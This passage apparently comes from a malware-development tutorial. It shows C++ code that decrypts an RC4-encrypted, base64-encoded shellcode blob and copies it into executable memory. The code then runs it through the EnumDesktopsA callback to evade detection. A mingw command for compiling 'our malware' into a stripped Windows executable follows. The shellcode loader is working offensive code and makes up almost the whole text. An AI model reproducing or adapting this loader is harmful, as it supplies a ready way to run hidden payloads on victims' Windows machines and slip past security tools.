 ```cpp
  unsigned char payload[] = "\x24\x29\x5d\xaf\x11\xdf\x3f\x65\x67\x64\x27\x14\x26\x1c\x53\xbc\xce\x31\xab\x34\xfa\xb7\xa1\xac\x63\xa5\xf2\xf4\x74\x88\x31\xf2\x47\x74\xc2\xdd\xf0\xcb\x8f\xf5\x5a\xe6\xb6\xe8\x73\x16\x4f\xcf\xaf\x54\x79\x0c\x3f\x90\x7d\xfd\xa6\x2b\x0d\x71\xc7\xb0\xb6\x40\xf0\x12\xdc\xa8\xc5\x20\xb5\xc0\x45\x25\x03\x30\x03\x23\xd9\xc8\x82\xbc\x7d\x1a\xfe\xcc\x66\x32\x2e\xaa\x40\xc9\x61\xc2\x72\x77\x70\xba\xc7\xd2\x3b\xea\x3d\x6f\x07\xf5\xbc\xae\x1d\x32\xc8\xf3\x6f\x1c\x32\xe0\xd7\x65\x20\x72\xec\x21\xfe\xa9\xc5\x72\x12\xa6\x06\x38\x01\x3e\x16\xe8\x09\x68\x87\xc8\x7f\x0b\x44\xcf\xba\x9c\xbe\x7c\xfc\x3b\x96\x3f\x90\xdc\x96\xe3\x8c\x3f\x3a\xe7\x57\xa4\xcd\xa5\x42\x4b\x55\x2e\x5b\x89\xf6\xd9\x80\x55\xf8\xbc\x0b\x4e\x66\x96\x01\xce\xc8\x97\x6a\xbd\x31\x6d\xfd\x53\xae\xcd\x98\xc9\x28\x73\x60\x4a\x82\xe1\x2e\xb7\x77\xc5\x97\xbd\x3d\xed\xc1\x9c\xeb\xc6\x06\x3a\x44\xf5\xf8\x7d\x79\x30\x42\xea\xbd\x4d\xbf\xe5\x18\xcb\xa5\x78\x6f\xb7\xf9\x65\xd7\x36\xbd\x92\x76\xf0\xda\x60\x97\xac\xd1\xcf\x98\xbf\xd7\x66\xd1\x4b\x34\x96\xfb\xe9\xf8\xac\x59\xe9\x0e\x81\x81\xe4\x7f\xcf\xd6\x7f\x16\x48\xe1\x94\x0c\x7c\x8e\xa0\x85\xa1\x81\x0f\xc3\x5f\xfb\xfd\x05\x7b\x69\x5b\xb4\x78\x4e\x1e\x10\x1b\x29\xc4\xa9\x1d\xa6\xa3\xe6\xa9\xb0\xdd\xc5\x35\x3b\x0e\xdb\xca\x82\x64\x1a\x19\x53\xdd\x65\xe7\xd3\x5e\x2e\x7d\x8c\xfa\x80\x52\x6c\xa0\xad\x9a\x8f\xb6\xdc\x43\x8b\x8e\x5f\xac\x46\xb5\x90\x8a\x16\x3d\x4d\xb9\x17\xc6\x6d\x87\x13\xad\xa3\x78\x68\x7c\xbc\xcf\x1b\x26\xa6\xc3\x37\x10\xfc\xca\xc4\x78\xa6\xe1\x7e\x88\x53\xcc\x2e\x38\xe3\x15\xd0\x2b\xe9\x0f";
  unsigned char* encoded = (unsigned char *)payload;
  unsigned char* decoded = (unsigned char *)malloc(sizeof(unsigned char) * (sizeof(payload) - 1));
  RC4(encoded, decoded, key, strlen((const char*)key), sizeof(payload) - 1);
  // printf("%s\n", decoded);

  unsigned int payload_bytes_len = 512;
  char * decoded_payload_bytes = (char *)malloc(sizeof(char) * payload_bytes_len);
  b64decode((const BYTE *)decoded, payload_bytes_len, decoded_payload_bytes, payload_bytes_len);

  unsigned int decoded_payload_len = 285;
  unsigned char* decoded_payload = new unsigned char[decoded_payload_len];

  for (int j = 0; j < decoded_payload_len; j++) {
    decoded_payload[j] = decoded_payload_bytes[j];
  }

  printf("-------payload-----------\n");
  for (int i = 0; i < decoded_payload_len; i++) {
    printf("%02hhx\t", decoded_payload[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, decoded_payload_len + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decoded_payload, decoded_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lcrypt32
```
